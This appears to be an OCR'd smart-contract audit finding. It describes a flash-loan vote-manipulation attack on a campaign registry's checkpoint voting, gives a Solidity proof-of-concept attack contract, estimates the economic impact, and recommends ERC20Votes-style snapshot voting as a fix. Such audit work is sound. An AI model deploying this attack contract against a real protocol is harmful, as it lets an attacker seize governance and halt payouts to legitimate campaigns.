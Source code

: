 **Attack Scenario:**
```solidity
contract FlashLoanVoteManipulation {
    function attack() external {
        // 1. Flash loan 10M USDC from Aave
        aave.flashLoan(address(this), usdc, 10_000_000e6, "");
    }
    
    function executeOperation(...) external {
        // 2. Deposit into campaign vault
        usdc.approve(vault, 10_000_000e6);
        vault.deposit(10_000_000e6, address(this));
        
        // 3. Vote with massive power
        campaignRegistry.voteOnCheckpoint(campaignId, 0, false); // Vote against
        
        // 4. Withdraw immediately
        vault.withdraw(vault.balanceOf(address(this)), address(this), address(this));
        
        // 5. Repay flash loan
        usdc.transfer(msg.sender, 10_000_000e6 + fee);
        return true;
    }
}
```

**Economic Impact:**
- Attacker with $10K can borrow $10M for one block (~$50 fee on Ethereum)
- With 10M votes vs legitimate 100K votes, attacker controls outcome
- Failed checkpoint halts ALL payouts to legitimate campaign

**Recommendation:**

1. **Implement ERC-20Votes-style checkpointing:**
```solidity
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Votes.sol";

// In GiveVault4626.sol
contract GiveVault4626 is ERC4626, ERC20Votes {
    // Automatic balance snapshots on transfer
}

// In CampaignRegistry.sol
function voteOnCheckpoint(bytes32 campaignId, uint256 checkpointIndex, bool voteFor) {
    CampaignCheckpoint storage checkpoint = ...;
    
    // Use snapshot from checkpoint creation block
    uint256 votingPower = GiveVault4626(campaign.vault).getPastVotes(
        msg.sender, 
        checkpoint.startBlock
    );
    
    require(votingPower > 0, "No voting power at snapshot");
    // ... rest of logic
}
```
